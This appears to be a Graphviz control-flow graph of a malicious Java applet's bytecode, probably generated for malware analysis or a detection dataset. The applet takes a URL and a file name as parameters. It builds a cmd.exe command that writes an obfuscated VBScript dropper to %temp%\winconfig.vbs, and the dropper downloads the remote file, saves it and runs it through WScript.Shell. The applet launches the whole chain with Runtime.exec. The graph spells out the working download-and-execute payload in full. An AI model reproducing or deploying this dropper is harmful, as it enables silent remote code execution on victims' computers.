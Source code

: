 digraph "" {
    "r0 := @this: Xclusive"
    "load.r r0"
    "r0 := @this: Xclusive"->"load.r r0";
    "push \"URL\""
    "load.r r0"->"push \"URL\"";
    "virtualinvoke <Xclusive: java.lang.String getParameter(java.lang.String)>"
    "push \"URL\""->"virtualinvoke <Xclusive: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Xclusive: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "push \"FileName\""->"virtualinvoke <Xclusive: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <Xclusive: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "new java.lang.StringBuilder"
    "store.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c echo Dim Sl > %temp%\\winconfig.vbs & echo Dim im >> %temp%\\winconfig.vbs & echo Dim S >> %temp%\\winconfig.vbs & echo Dim H >> %temp%\\winconfig.vbs & echo DIM A >> %temp%\\winconfig.vbs & echo Dim D >> %temp%\\winconfig.vbs & echo Dim Y >> %temp%\\winconfig.vbs & echo Y = \\\"MSXML2\\\" >> %temp%\\winconfig.vbs & echo H = \\\".XMLHTTP\\\" >> %temp%\\winconfig.vbs & echo D = \\\"ADO\\\" >> %temp%\\winconfig.vbs & echo S = \\\"DB\\\" >> %temp%\\winconfig.vbs & echo A = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Sl = \\\"WScript\\\" >> %temp%\\winconfig.vbs & echo im = \\\".Shell\\\" >> %temp%\\winconfig.vbs & echo strFileURL = \\\"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c echo Dim Sl > %temp%\\winconfig.vbs & echo Dim im >> %temp%\\winconfig.vbs & echo Dim S >> %temp%\\winconfig.vbs & echo Dim H >> %temp%\\winconfig.vbs & echo DIM A >> %temp%\\winconfig.vbs & echo Dim D >> %temp%\\winconfig.vbs & echo Dim Y >> %temp%\\winconfig.vbs & echo Y = \\\"MSXML2\\\" >> %temp%\\winconfig.vbs & echo H = \\\".XMLHTTP\\\" >> %temp%\\winconfig.vbs & echo D = \\\"ADO\\\" >> %temp%\\winconfig.vbs & echo S = \\\"DB\\\" >> %temp%\\winconfig.vbs & echo A = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Sl = \\\"WScript\\\" >> %temp%\\winconfig.vbs & echo im = \\\".Shell\\\" >> %temp%\\winconfig.vbs & echo strFileURL = \\\"\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"cmd.exe /c echo Dim Sl > %temp%\\winconfig.vbs & echo Dim im >> %temp%\\winconfig.vbs & echo Dim S >> %temp%\\winconfig.vbs & echo Dim H >> %temp%\\winconfig.vbs & echo DIM A >> %temp%\\winconfig.vbs & echo Dim D >> %temp%\\winconfig.vbs & echo Dim Y >> %temp%\\winconfig.vbs & echo Y = \\\"MSXML2\\\" >> %temp%\\winconfig.vbs & echo H = \\\".XMLHTTP\\\" >> %temp%\\winconfig.vbs & echo D = \\\"ADO\\\" >> %temp%\\winconfig.vbs & echo S = \\\"DB\\\" >> %temp%\\winconfig.vbs & echo A = \\\".Stream\\\" >> %temp%\\winconfig.vbs & echo Sl = \\\"WScript\\\" >> %temp%\\winconfig.vbs & echo im = \\\".Shell\\\" >> %temp%\\winconfig.vbs & echo strFileURL = \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\" >> %temp%\\winconfig.vbs & echo strHDLocation = \\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" >> %temp%\\winconfig.vbs & echo strHDLocation = \\\"\"";
    "push \"\\\" >> %temp%\\winconfig.vbs & echo strHDLocation = \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\" >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = CreateObject(Y+H) >> %temp%\\winconfig.vbs & echo objXMLHTTP.open \\\"GET\\\", strFileURL, false >> %temp%\\winconfig.vbs & echo objXMLHTTP.send() >> %temp%\\winconfig.vbs & echo If objXMLHTTP.Status = 200 Then >> %temp%\\winconfig.vbs & echo Set objADOStream = CreateObject(D+S+A) >> %temp%\\winconfig.vbs & echo objADOStream.Open >> %temp%\\winconfig.vbs & echo objADOStream.Type = 1 >> %temp%\\winconfig.vbs & echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\\winconfig.vbs & echo objADOStream.Position = 0 >> %temp%\\winconfig.vbs & echo Set objFSO = Createobject(\\\"Scripting.FileSystemObject\\\") >> %temp%\\winconfig.vbs & echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\\winconfig.vbs & echo Set objFSO = Nothing >> %temp%\\winconfig.vbs & echo objADOStream.SaveToFile strHDLocation >> %temp%\\winconfig.vbs & echo objADOStream.Close >> %temp%\\winconfig.vbs & echo Set objADOStream = Nothing >> %temp%\\winconfig.vbs & echo End if >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = Nothing >> %temp%\\winconfig.vbs & echo Set shell = CreateObject(Sl+im) >> %temp%\\winconfig.vbs & echo shell.Run \\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = CreateObject(Y+H) >> %temp%\\winconfig.vbs & echo objXMLHTTP.open \\\"GET\\\", strFileURL, false >> %temp%\\winconfig.vbs & echo objXMLHTTP.send() >> %temp%\\winconfig.vbs & echo If objXMLHTTP.Status = 200 Then >> %temp%\\winconfig.vbs & echo Set objADOStream = CreateObject(D+S+A) >> %temp%\\winconfig.vbs & echo objADOStream.Open >> %temp%\\winconfig.vbs & echo objADOStream.Type = 1 >> %temp%\\winconfig.vbs & echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\\winconfig.vbs & echo objADOStream.Position = 0 >> %temp%\\winconfig.vbs & echo Set objFSO = Createobject(\\\"Scripting.FileSystemObject\\\") >> %temp%\\winconfig.vbs & echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\\winconfig.vbs & echo Set objFSO = Nothing >> %temp%\\winconfig.vbs & echo objADOStream.SaveToFile strHDLocation >> %temp%\\winconfig.vbs & echo objADOStream.Close >> %temp%\\winconfig.vbs & echo Set objADOStream = Nothing >> %temp%\\winconfig.vbs & echo End if >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = Nothing >> %temp%\\winconfig.vbs & echo Set shell = CreateObject(Sl+im) >> %temp%\\winconfig.vbs & echo shell.Run \\\"\"";
    "push \"\\\" >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = CreateObject(Y+H) >> %temp%\\winconfig.vbs & echo objXMLHTTP.open \\\"GET\\\", strFileURL, false >> %temp%\\winconfig.vbs & echo objXMLHTTP.send() >> %temp%\\winconfig.vbs & echo If objXMLHTTP.Status = 200 Then >> %temp%\\winconfig.vbs & echo Set objADOStream = CreateObject(D+S+A) >> %temp%\\winconfig.vbs & echo objADOStream.Open >> %temp%\\winconfig.vbs & echo objADOStream.Type = 1 >> %temp%\\winconfig.vbs & echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\\winconfig.vbs & echo objADOStream.Position = 0 >> %temp%\\winconfig.vbs & echo Set objFSO = Createobject(\\\"Scripting.FileSystemObject\\\") >> %temp%\\winconfig.vbs & echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\\winconfig.vbs & echo Set objFSO = Nothing >> %temp%\\winconfig.vbs & echo objADOStream.SaveToFile strHDLocation >> %temp%\\winconfig.vbs & echo objADOStream.Close >> %temp%\\winconfig.vbs & echo Set objADOStream = Nothing >> %temp%\\winconfig.vbs & echo End if >> %temp%\\winconfig.vbs & echo Set objXMLHTTP = Nothing >> %temp%\\winconfig.vbs & echo Set shell = CreateObject(Sl+im) >> %temp%\\winconfig.vbs & echo shell.Run \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs\"";
    "push \"\\\" >> %temp%\\winconfig.vbs & start %temp%\\winconfig.vbs\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "push \"os.name\""
    "store.r r0"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "pop"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"pop";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
